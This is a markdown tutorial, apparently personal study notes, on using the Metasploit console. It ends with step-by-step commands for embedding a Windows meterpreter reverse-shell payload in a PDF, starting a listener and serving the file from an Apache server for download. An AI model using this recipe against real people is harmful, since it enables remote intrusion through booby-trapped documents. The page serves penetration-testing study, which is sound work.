 # Metasploit Framework - Ethical Hacking

## Steps:

1. Start Postgres database service 
   
   ```shell
   service postgresql start
   ```

2. Start msfconsole:
   
   ```shell
   msfconsole
   ```

Modules in Metaploit include:

- **Exploits** - takes advantage of a system's vulnerabilty

- **Payloads** - is what is planted on the target system to gain access to exploit a system's vulnerability

- **Post**

- **Encoders**

- **Auxiliary**

- **Nops**

> 📌**Help** command  - show most of accepted commands in the console.

***use*** Command: 

Allow usage of modules e.g

```shell
use exploit/windows/browser/adobe_flash_avm2
```

***show*** Command:

Gives more information about a module being used

***show options*** Command: 

Gives the options that can be changed for a module depending on the exploit

***show payloads*** Command:

Provide alls the paylods compatible with the exploit

***show targets*** Command:

Display the targets to be expoited

***show info*** Command:

Gives more information about the exploit

***search*** Command: 

Gives one the ability to find the module that one needs

It has also keywords such as:

1. **platform** - search for the targeted platform

2. **type** - type of module being searched

3. **name** - specifying the name of the exploit if known

```shell
search type:exploit platform:windows meterpreter
```

***set*** Command:

Allows to change the options available for a module depending on an exploit

```shell
set LHOST 192.168.139.133

set LPORT 4444
```

> 📌 use ***show options*** command to view if all the options are set

***exploit*** Command:

Runs the exploit together using all the set options

***back*** Command:

takes one a step back from the previous ran command

***exit*** Command:

Quits the msfconsole

---

## Embedding Payloads to PDF Documents

#### Create the PDF:

Search and use the exploit:

```shell
use exploit/windows/fileformat/adobe_pdf_embedded_exe
```

Set payload:

```shell
set payload windows/x64/meterpreter/reverse_tcp
```

Set other options e.g LHOST, LPORT, FILENAME, INFILENAME e.t.c

> 📌 _**INFILENAME** option is where you provide the path to the custom file to embed the payload with._
> 
> ```shell
> set INFILENAME /<USERNAME>/Documents/custom.pdf
> ```

Then run the command `exploit` to create the pdf file.



#### Run the listener:

Run the listener:

```shell
use exploit/multi/handler
```

Set the payload:

```shell
set payload windows/x64/meterpreter/reverse_tcp
```

Set other options e.g LHOST, LPORT



Then run the command `exploit` to run the listener.



#### Serve the PDF w/ Apache Web Server:

Move the payload to apache server and serve it for it to be downloaded:

```shell
sudo mv /root/.msf4/local/<FILENAME>.pdf /var/www/html/<FILENAME>.pdf
```
